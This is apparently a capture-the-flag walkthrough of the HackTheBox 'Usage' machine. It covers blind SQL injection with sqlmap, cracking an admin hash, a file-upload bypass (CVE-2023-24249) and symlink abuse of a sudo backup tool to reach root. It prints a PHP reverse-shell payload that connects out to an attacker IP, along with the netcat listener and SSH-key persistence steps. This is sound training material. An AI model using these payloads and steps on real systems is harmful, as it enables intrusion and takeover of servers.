

# HackTheBox - Usage
---

## Initial Enumeration

After starting the machine, we are provided with an IP of 10.10.11.18.

An initial scan `(nmap -p- -Pn --disable-arp-ping --min-rate 300 --stats-every=5s 10.10.11.18)` reveals open ports 22 and 80. A follow-up scan to further enumerate `(sudo nmap -O -sV -p 22,80 10.10.11.18)` provides the following details:


Further research provides no known vulnerabilities for either of these services, nor kernel exploits for the OS.

Attempting to view the web service gets an error, but provides us with the domain of usage.htb – adding this to our /etc/hosts file enables us to view the following on the web service:


Further fingerprinting on the webservice using whatweb as well as looking through the page source provides the following information:


Unable to find any known vulnerabilities for this technology stack, we take a look at the functionality of the rest of the webpage. Initially we check each field for SQLi in each field in the login fields using a variety of payloads (very useful set of payloads found here: https://github.com/payloadbox/sql-injection-payload-list), and find nothing.

Checking for SQLi under the password reset link, however, nets us the following:


Here, we have evidence that the email field in the POST request to /forget-password is vulnerable to a blind, time-based SQLi attack. This will prove to be considerably harmful to data confidentiality.

---
## Initial Compromise

We use our browser proxy to save an intercepted POST request, and use it to run an attack using sqlmap `(sqlmap -r ForgotPasswordPOST -p email –level=5)`. This discovers that a time-based blind injection with an eight-clause UNION query is able to enumerate database information. Doing so, we are able to enumerate the entire database. Of particular note is the following, from the “usage_blog.admin_users” table:


We can crack this hash with johntheripper, getting the following password using the rockyou.txt wordlist, getting us the password “whatever1”.

We would not have been able to crack this without significant time and compute resources had a better password policy been enforced.

This allows us to login to the admin dashboard using the “admin” username. From that dashboard, we are presented with a good deal of new information about the technology stack used in this website:


After some investigation, we come across [CVE-2023-24249](https://flyd.uk/post/cve-2023-24249/) related to the encore/laravel-admin package, indicating that we can arbitrarily upload php scripts to the server to attain arbitrary code execution.

We create the following script to give us a remote shell:
```html
<html>
	<body>
		<?PHP system('php -r \'$sock=fsockopen(“10.10.14.11”,1337);exec(“sh <&3 >&3 2>&3”);\''); ?>
	</body>
</html>
```

We save this script with a .jpg extension and then attempt to upload it via the admin area's user avatar upload interface. Capturing this request, we permit it to run, then replay it, adding a “.php” to the end of the file.


Refreshing the upload interface, we now can see that our script has been uploaded.




We now start a netcat listener on our machine `(nc -lvnp 1337)`. By clicking the download link (or navigating to /uploads/images/script.jpg.php), we execute our script and can see that we have gained a reverse shell.


Now that we have remote access with the user “dash”, we stabilize our access and gain persistence by adding our public ssh key to the user's /home/user/.sh/authorized_keys file. We can now log in to the server as dash with full terminal functionality whenever we like.

---
## Privilege Escalation

Further enumeration shows that there is another user on this machine, “xander”. By sifting through log and configuration files, we find a number of passwords written in plaintext. It is with the password “3nc0d3d_pa$$w0rd” found in /home/dash/.monitrc that we are able to log in as xander.


Doing a little bit of investigation into the xander user reveals that, unlike dash, xander has limited access to sudo:


Naturally, anything that we can execute as a superuser merits further investigation. Running the command (without sudo rights, to limit possible damage caused by executing an unknown binary) nets us the following:


We have selected to use the “Project Backup” option as there is nothing in the MySQL database that we do not already have access to, nor do we want to necessarily reset the admin password just yet and possibly cause undo interference with the normal administration of the machine.

The backup option does seem to attempt to create a zip file in /var/backups. If running it requires superuser permissions, it is possible some interesting files may end up in that backup. We run the backup again, this time with sudo functionality. We go to the backup, unzip it, and investigate. We do not have permissions to write in the folder where it was made, so we will copy it to xander's home directory and unzip there. When unzipped, we find backups of the contents of /var/www/html/. We already had full read/write access to these files as dash. However, since this backup was made with superuser functionality, this gives us an opportunity.

As dash, we go to the /var/www/html/ directory and, in it, create a symlink to /root/. Then, logged back into xander, we run the project backup once again. This time, when unzipped, the project backup contains the contents of the /root/ folder, complete with .ssh folder, which contains the root user's public and private keys.


From here, we can use the keys to log in to root via ssh from out attacking machine, providing complete control over the server.

